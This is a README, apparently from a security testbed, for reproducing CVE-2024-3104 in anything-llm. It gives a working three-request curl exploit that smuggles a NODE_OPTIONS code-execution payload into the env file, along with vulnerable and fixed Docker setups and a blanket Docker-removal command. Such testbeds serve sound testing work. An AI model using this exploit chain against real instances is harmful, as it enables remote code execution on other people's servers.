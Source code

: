# anything-llm CVE-2024-3104

This directory contains the deployment config for anything-llm instances vulnerable and fixed to CVE-2024-3104. Instances before the commit identified as bfedfebfab032e6f4d5a369c8a2f947c5d0c5286 may allow an unauthenticated user to enable escalation of privilege via remote access potentially.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following three curl commands. In a vulnerable environment, after the final curl request, a file called rce will be created under the temp directory of the container.

```
# update env variables
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:3001' -H $'Content-Length: 175' -H $'sec-ch-ua: \"Chromium\";v=\"121\", \"Not A(Brand\";v=\"99\"' -H $'Content-Type: text/plain;charset=UTF-8' -H $'sec-ch-ua-mobile: ?0' -H $'Authorization: null' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36' -H $'sec-ch-ua-platform: \"Linux\"' -H $'Accept: */*' -H $'Origin: http://127.0.0.1:3001' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: http://127.0.0.1:3001/onboarding/llm-preference' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    --data-binary $'{\"LocalAiBasePath\":\"http://example.com/v1\'\\nNODE_OPTIONS=\'--import=\\\"data:text/javascript,import exec from \\\\\\\"node:child_process\\\\\\\";exec.execSync(\\\\\\\"touch /tmp/rce\\\\\\\")\\\"\"}' \
    $'http://127.0.0.1:3001/api/system/update-env'

# dump variables to env file
curl -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1:3001' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \"Chromium\";v=\"121\", \"Not A(Brand\";v=\"99\"' -H $'sec-ch-ua-mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36' -H $'sec-ch-ua-platform: \"Linux\"' -H $'Accept: */*' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: http://127.0.0.1:3001/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    $'http://127.0.0.1:3001/api/env-dump'

# trigger rce
curl -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1:3001' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \"Chromium\";v=\"121\", \"Not A(Brand\";v=\"99\"' -H $'sec-ch-ua-mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36' -H $'sec-ch-ua-platform: \"Linux\"' -H $'Accept: */*' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: http://127.0.0.1:3001/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    $'http://127.0.0.1:3001/api/migrate'
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```

## Vulnerable Setup

Since the official anything-llm Docker repository doesn't use a version system, and it overwrites Docker images with the latest updates every time, we need to clone the official repository and restore it to a state before the patch. Since the original vulnerability report uses the repository whose last commit ID is fde905aac1812b84066ff72e5f2f90b56d4c3a59, I will use it too.

I prepared a setup.sh bash script that does the following steps automatically:

- Cloning the official repository.
- Restoring the repository state to the specified commit ID.
- Copying required files (fixed Dockerfile, .env file etc.)
- Building and starting the Docker image.

```
./setup.sh
```

Application will be available at `localhost:3001` and anything-llm related files will be under the current directory.

## Non-vulnerable Setup

```
docker pull mintplexlabs/anythingllm
export STORAGE_LOCATION=$HOME/anythingllm && \
mkdir -p $STORAGE_LOCATION && \
touch "$STORAGE_LOCATION/.env" && \
docker run -d --network host \
--cap-add SYS_ADMIN \
-v ${STORAGE_LOCATION}:/app/server/storage \
-v ${STORAGE_LOCATION}/.env:/app/server/.env \
-e STORAGE_DIR="/app/server/storage" \
mintplexlabs/anythingllm
```

Application will be available at `localhost:3001` and anything-llm related files will be under the $HOME directory.
